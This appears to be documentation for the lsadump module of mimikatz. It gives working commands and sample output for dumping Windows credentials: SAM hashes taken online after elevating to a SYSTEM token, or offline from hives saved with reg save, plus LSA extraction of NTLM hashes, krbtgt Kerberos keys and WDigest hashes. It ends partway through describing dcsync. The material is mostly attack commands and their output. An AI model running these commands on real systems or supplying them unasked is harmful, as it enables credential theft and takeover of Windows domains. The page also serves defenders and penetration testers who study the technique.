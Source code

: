 > Commands: [sam](#sam), [secrets](#secrets), [cache](#cache), [lsa](#lsa), [trust](#trust), [backupkeys](#backupkeys), [rpdata](#rpdata), [dcsync](#dcsync), [netsync](#netsync)

## sam
This command dumps the Security Account Managers (`SAM`) database. It contains NTLM, and sometimes LM hash, of users passwords.
It can work in two modes: online (with `SYSTEM` user or token) or offline (with `SYSTEM` & `SAM` hives or backup)

### online
If you're not `SYSTEM` or using an impersonated `SYSTEM` token, you'll have access denied error:
```
mimikatz # lsadump::sam
Domain : VM-W7-ULT-X
SysKey : 74c159e4408119a0ba39a7872e9d9a56
ERROR kuhl_m_lsadump_getUsersAndSamKey ; kull_m_registry_RegOpenKeyEx SAM Accounts (0x00000005)
```
In this case, you can use `psexec` to begin `SYSTEM` (or other tools) or elevate with `token::elevate` command to impersonate a `SYSTEM` token:
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::whoami
 * Process Token : 623884       vm-w7-ult-x\Gentil Kiwi S-1-5-21-1982681256-1210654043-1600862990-1000  (14g,24p)       Primary
 * Thread Token  : no token

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : AUTORITE NT\Système

228     24215           AUTORITE NT\Système     S-1-5-18        (04g,30p)       Primary
 -> Impersonated !
 * Process Token : 623884       vm-w7-ult-x\Gentil Kiwi S-1-5-21-1982681256-1210654043-1600862990-1000  (14g,24p)       Primary
 * Thread Token  : 624196       AUTORITE NT\Système     S-1-5-18        (04g,30p)       Impersonation (Delegation)

mimikatz # lsadump::sam
Domain : VM-W7-ULT-X
SysKey : 74c159e4408119a0ba39a7872e9d9a56

SAMKey : e44dd440fd77ebfe800edf60c11d4abd

RID  : 000001f4 (500)
User : Administrateur
LM   :
NTLM : 31d6cfe0d16ae931b73c59d7e0c089c0

RID  : 000001f5 (501)
User : Invité
LM   :
NTLM :

RID  : 000003e8 (1000)
User : Gentil Kiwi
LM   :
NTLM : cc36cf7a8514893efccd332446158b1a
```

### offline
You can backup `SYSTEM` & `SAM` hives with:
```
reg save HKLM\SYSTEM SystemBkup.hiv
reg save HKLM\SAM SamBkup.hiv
```
Or use Volue Shadow Copy / BootCD to backup these files:
```
C:\Windows\System32\config\SYSTEM
C:\Windows\System32\config\SAM
```
Then
```
mimikatz # lsadump::sam SystemBkup.hiv SamBkup.hiv
Domain : VM-W7-ULT-X
SysKey : 74c159e4408119a0ba39a7872e9d9a56

SAMKey : e44dd440fd77ebfe800edf60c11d4abd

RID  : 000001f4 (500)
User : Administrateur
LM   :
NTLM : 31d6cfe0d16ae931b73c59d7e0c089c0

RID  : 000001f5 (501)
User : Invité
LM   :
NTLM :

RID  : 000003e8 (1000)
User : Gentil Kiwi
LM   :
NTLM : cc36cf7a8514893efccd332446158b1a
```

## secrets

## cache

## lsa

```
mimikatz # lsadump::lsa /id:500
Domain : CHOCOLATE / S-1-5-21-130452501-2365100805-3685010670

RID  : 000001f4 (500)
User : Administrateur
ERROR kuhl_m_lsadump_lsa_user ; SamQueryInformationUser c0000003
```

```
mimikatz # lsadump::lsa /inject /name:krbtgt
Domain : CHOCOLATE / S-1-5-21-130452501-2365100805-3685010670

RID  : 000001f6 (502)
User : krbtgt

 * Primary
    LM   :
    NTLM : 310b643c5316c8c3c70a10cfb17e2e31

 * WDigest
    01  54a52c7ef73ebe90194c083129d6ac81
    02  9fa3bb508e7b3646efa65acbd22e2af9
    03  e185f5c75b64f94e5716a1e42e37794d
    04  54a52c7ef73ebe90194c083129d6ac81
    05  9fa3bb508e7b3646efa65acbd22e2af9
    06  5dd4ee69b653c5c9aad64a393b6a9700
    07  54a52c7ef73ebe90194c083129d6ac81
    08  7bedf3c0186f4af47c95724fbeed7a44
    09  7bedf3c0186f4af47c95724fbeed7a44
    10  80e30fbce1952fc7aa5778f51ffad4d8
    11  1c05ad8928e14f380db8a831c1946fe3
    12  7bedf3c0186f4af47c95724fbeed7a44
    13  c33523d429bce0c392c89ac2d301ae6c
    14  1c05ad8928e14f380db8a831c1946fe3
    15  536c8128d7cf8667164ed762ad2fb9e6
    16  536c8128d7cf8667164ed762ad2fb9e6
    17  a1c4b9e13d6679796398e4cacad0cb03
    18  3f36213dfa4ea6f9e505a60c58c6393a
    19  dfda9df26d75e40b1639cf9305937f51
    20  b469efd6b8bff67312a09918526ef080
    21  49a1ad8ee21e79f44a8033e189616981
    22  49a1ad8ee21e79f44a8033e189616981
    23  079b50c03444176568e0732db7e65b85
    24  3885d7b1fa11fd86e892e2aaab4c0aec
    25  3885d7b1fa11fd86e892e2aaab4c0aec
    26  5bd64f5d0bcca6c10ccbf2fbb5043a74
    27  9c546227d4c3bbbd4a5a6065dd7b7213
    28  e776b6660b25384f87d55cc300657d13
    29  26c87bd1a9c48e652f83431bf20227c2

 * Kerberos
    Default Salt : CHOCOLATE.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 620eb39e450e6776

 * Kerberos-Newer-Keys
    Default Salt : CHOCOLATE.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 15540cac73e94028231ef86631bc47bd5c827847ade468d6f6f739eb00c68e42
      aes128_hmac       (4096) : da3128afc899a298b72d365bd753dbfb
      des_cbc_md5       (4096) : 620eb39e450e6776
```

```
mimikatz # lsadump::lsa /patch
Domain : CHOCOLATE / S-1-5-21-130452501-2365100805-3685010670

RID  : 000001f4 (500)
User : Administrateur
LM   :
NTLM : cc36cf7a8514893efccd332446158b1a

RID  : 000001f5 (501)
User : Invité
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 310b643c5316c8c3c70a10cfb17e2e31

RID  : 00000452 (1106)
User : equipement
LM   :
NTLM : 57a087d98bfac9df10df27a564b77ad6

RID  : 00000453 (1107)
User : utilisateur
LM   :
NTLM : 8e3a18d453ec2450c321003772d678d5

RID  : 000003e9 (1001)
User : SRVCHARLY$
LM   :
NTLM : cfe67c8e5e5bab99b911302728152ab3

RID  : 00000450 (1104)
User : WIN81$
LM   :
NTLM : ad0344245f24e4927d9480559c7f8842

RID  : 00000451 (1105)
User : WINXP$
LM   :
NTLM : d2624e317aa4d245b7dad2942444d7f7
```

## dcsync
This command uses [`DRSR`](https://msdn.microsoft.com/en-us/library/cc228086.aspx) protocol to ask a domain controller to synchronize a specified entry. It's the same protocol that domain controllers are using between them.

It was co-writed with Vincent LE TOUX ( vincent.letoux [at] gmail.com / http://www.mysmartlogon.com )

**Argument:**
* `/domain` - _optional_ - the FQDN of the domain you want to synchronize (default: _your current domain_)
* `/dc` - _optional_ - the FQDN of the domain controller you want to synchronize (default: _autodected by the domain name_)